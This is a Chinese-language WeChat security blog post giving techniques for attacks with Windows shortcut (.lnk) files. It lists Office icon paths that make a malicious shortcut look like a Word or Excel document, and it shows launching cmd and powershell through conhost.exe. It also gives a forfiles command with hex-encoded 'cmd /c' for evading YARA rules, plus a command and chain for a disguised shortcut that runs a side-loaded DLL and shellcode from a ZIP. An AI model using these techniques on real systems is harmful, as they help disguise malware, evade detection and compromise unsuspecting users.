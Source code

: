 #  关于Lnk攻击的一些技巧

原创 relaysec  [ Relay学安全 ](javascript:void\(0\);)

**Relay学安全** ![]()

微信号 gh_8d57319ec39c

功能介绍
这是一个纯分享技术的公众号，只想做安全圈的一股清流，不会发任何广告，不会接受任何广告，只会分享纯技术文章，欢迎各行各业的小伙伴关注。让我们一起提升技术。

____

___发表于_

#### 修改你Lnk文件的图标

如下图标路径，只要对方安装了Office一般路径是不会改变的。

  *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    access = "%PROGRAMFILES%\Microsoft Office\root\vfs\Windows\Installer\{90160000-000F-0000-1000-0000000FF1CE}\accicons.exe"excel = "%PROGRAMFILES%\Microsoft Office\root\vfs\Windows\Installer\{90160000-000F-0000-1000-0000000FF1CE}\xlicons.exe"lync = "%PROGRAMFILES%\Microsoft Office\root\vfs\Windows\Installer\{90160000-000F-0000-1000-0000000FF1CE}\lyncicon.exe"office = "%PROGRAMFILES%\Microsoft Office\root\vfs\Windows\Installer\{90160000-000F-0000-1000-0000000FF1CE}\ohub32.exe",56onedrive = "%PROGRAMFILES%\Microsoft Office\root\vfs\Windows\Installer\{90160000-000F-0000-1000-0000000FF1CE}\grv_icons.exe"onenote = "%PROGRAMFILES%\Microsoft Office\root\vfs\Windows\Installer\{90160000-000F-0000-1000-0000000FF1CE}\joticon.exe"outlook = "%PROGRAMFILES%\Microsoft Office\root\vfs\Windows\Installer\{90160000-000F-0000-1000-0000000FF1CE}\outicon.exe"powerpoint = "%PROGRAMFILES%\Microsoft Office\root\vfs\Windows\Installer\{90160000-000F-0000-1000-0000000FF1CE}\pptico.exe"project = "%PROGRAMFILES%\Microsoft Office\root\vfs\Windows\Installer\{90160000-000F-0000-1000-0000000FF1CE}\pj11icon.exe"publisher = "%PROGRAMFILES%\Microsoft Office\root\vfs\Windows\Installer\{90160000-000F-0000-1000-0000000FF1CE}\pubs.exe"visio = "%PROGRAMFILES%\Microsoft Office\root\vfs\Windows\Installer\{90160000-000F-0000-1000-0000000FF1CE}\visicon.exe"word = "%PROGRAMFILES%\Microsoft Office\root\vfs\Windows\Installer\{90160000-000F-0000-1000-0000000FF1CE}\wordicon.exe"

#### 使用Lnk来运行你的powershell或CMD

需要注意的是不要直接去运行powershell或CMD，可以使用const来去运行。

  * 

    
    
    C:\windows\system32\conhost.exe conhost conhost conhost conhost conhost conhost cmd /c notepad

  * 

    
    
    C:\windows\system32\conhost.exe conhost conhost conhost conhost conhost conhost powershell ...

![]()

#### 使用Forfiles运行

因为Forfiles支持16进制编码，可以帮助我们逃避一些Yara规则。

  * 

    
    
    forfiles.exe /p c:\windows\system32 /m user32.dll /c "0x630x6d0x640x200x2f0x63 notepad | calc

这里的0x630x6d0x640x200x2f0x63 其实就是cmd /c

![]()

如下进程链:

![]()

#### Lnk执行ZIP中恶意程序

Lnk中执行ZIP中的恶意程序，这里思路是这样的，我们在ZIP中使用白加黑的方式，将白程序和黑DLL以及shellcode压缩成ZIP文件。

然后使用Lnk文件去调用。

这里使用到如下工具:

  * 

    
    
    https://www.x86matthew.com/view_post?id=embed_exe_lnk

使用cl.exe编译之后 然后使用如下命令制作恶意.lnk，在这之前需要将白程序打包成一个zip文件。

然后如下命令去生成arp.lnk。第一个参数表示你压缩的zip文件，第二个参数表示你要生成的.lnk名称，第三个参数表示你要执行zip压缩包中的那个程序。

可以看到成功调用。

  * 

    
    
    LnkAndZip.exe arp.zip arp.lnk arphaCrashReport64.exe "%PROGRAMFILES%\Microsoft Office\root\vfs\Windows\Installer\{90160000-000F-0000-1000-0000000FF1CE}\wordicon.exe"

![]()

这里图标没有显示出来的原因是，我这个虚拟机没有装Office。

将文件拉到我物理机可以看到已经有word图标了。

![]()

ZIP压缩包中的文件:

![]()

如下攻击链:

  * 

    
    
    Lnk --> arp.zip --> arphaCrashReport64.exe --> arphaDump64.dll --> ...这里可以写shellcode

预览时标签不可点

微信扫一扫  
关注该公众号

继续滑动看下一个

# 关于Lnk攻击的一些技巧

原创 relaysec  [ Relay学安全 ](javascript:void\(0\);)

轻触阅读原文

![]()

Relay学安全

赞 分享 在看

向上滑动看下一个

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看 分享 留言

